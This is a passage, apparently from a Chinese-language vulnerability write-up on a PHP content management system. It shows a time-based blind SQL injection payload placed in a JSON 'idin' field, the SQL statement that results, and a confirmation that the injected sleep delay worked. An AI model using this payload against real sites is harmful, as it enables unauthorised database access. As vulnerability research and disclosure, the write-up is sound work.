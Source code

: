 有好几个`type_id`为`arclist`的情况，我们就可以构造payload为

```php
data={"m_picplayer":{"_alias":"abc","idin":"1,1 and if(1,1 and sleep(7.1),1)"}}
```

![image-20231108182526565](assets/1702521293-b6d5db8fae77e54ab285bf85c56792a7.jpg)

拼接的语句是

```php
 AND l.id IN(1,1 and if(1,1 and sleep(4),1)) 
```

最后返回content后调用`$this->model('list')->arc_count()`，得到最终执行的sql语句

![image-20231108183037738](assets/1702521293-6b3c2b0246948772969decd646642569.jpg)

测试也是成功延时，时间是两倍

![f779542ea43ead675f9ed7caeed66c4d6585028942b11.jpg](assets/1702521293-847684cffc6d60e7406859a5f0f7636e.jpg)